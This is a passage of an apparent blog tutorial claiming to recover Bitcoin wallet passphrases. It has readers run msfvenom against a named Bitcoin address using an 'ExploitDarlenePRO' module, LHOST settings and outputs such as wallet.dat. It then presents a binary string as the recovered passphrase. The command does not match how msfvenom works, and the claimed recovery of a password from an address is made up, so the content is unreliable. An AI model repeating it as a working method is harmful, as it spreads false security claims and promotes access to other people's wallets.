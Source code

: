 

<p>Let’s use the tool to create a payload&nbsp;<strong><code>MSFVenom</code></strong></p>



<p>For operation, select Bitcoin Wallet:&nbsp;&nbsp;<strong><a href="https://btc1.trezor.io/address/1GjjGLYR7UhtM1n6z7QDpQskBicgmsHW9k">1GjjGLYR7UhtM1n6z7QDpQskBicgmsHW9k</a></strong>&nbsp;</p>



<p><a href="https://btc1.trezor.io/address/1GjjGLYR7UhtM1n6z7QDpQskBicgmsHW9k">https://btc1.trezor.io/address/1GjjGLYR7UhtM1n6z7QDpQskBicgmsHW9k</a></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong>Launch command:</strong></p>
</blockquote>



<pre class="wp-block-code"><code><strong>!./msfvenom 1GjjGLYR7UhtM1n6z7QDpQskBicgmsHW9k -p modules/exploits/ExploitDarlenePRO LHOST=172.28.0.12 -f RB -o decode_core.rb -p bitcoin/src/crypto LHOST=172.28.0.12 -f CPP -o aes.cpp -p bitcoin/src/crypto LHOST=172.28.0.12 -f DAT -o wallet.dat</strong></code></pre>



<figure class="wp-block-image"><a href="https://github.com/demining/Gauss-Jacobi-Method-and-Machine-Learning-Process-BitcoinChatGPT/blob/main/Decrypting%20Passwords%20to%20Access%20Lost%20Bitcoin%20Wallets%20Using%20Gauss-Jacobi%20Method%20and%20Machine%20Learning%20Process%20BitcoinChatGPT%20-%20CRYPTO%20DEEP%20TECH_files/image-43-1024x227.png" target="_blank" rel="noreferrer noopener"><img src="https://github.com/demining/Gauss-Jacobi-Method-and-Machine-Learning-Process-BitcoinChatGPT/raw/main/Decrypting%20Passwords%20to%20Access%20Lost%20Bitcoin%20Wallets%20Using%20Gauss-Jacobi%20Method%20and%20Machine%20Learning%20Process%20BitcoinChatGPT%20-%20CRYPTO%20DEEP%20TECH_files/image-43-1024x227.png" alt="Decrypting Passwords to Access Lost Bitcoin Wallets Using Gauss-Jacobi Method and Machine Learning Process"/></a></figure>



<blockquote class="wp-block-quote">
<p><strong>Result:</strong></p>
</blockquote>



<pre class="wp-block-code"><code><strong>1111000101000001111101110000011101000000101110101101011110100100000101010001100101100101001010001110001111100000110111110110000011011011010111101111111010001000001111000110010101000111011101000101000011000100011011001000100111110001110010011001001100111000</strong></code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>We need to save the resulting binary format to a file:&nbsp;&nbsp;<strong><code><a href="https://github.com/demining/CryptoDeepTools/blob/main/30GaussJacobiMethod/walletpassphrase.txt">walletpassphrase.txt</a></code></strong>&nbsp;we will use&nbsp;&nbsp;<strong><em><a href="https://github.com/demining/CryptoDeepTools/blob/main/30GaussJacobiMethod/binary_save.py">a Python script</a></em></strong>&nbsp;.</p>
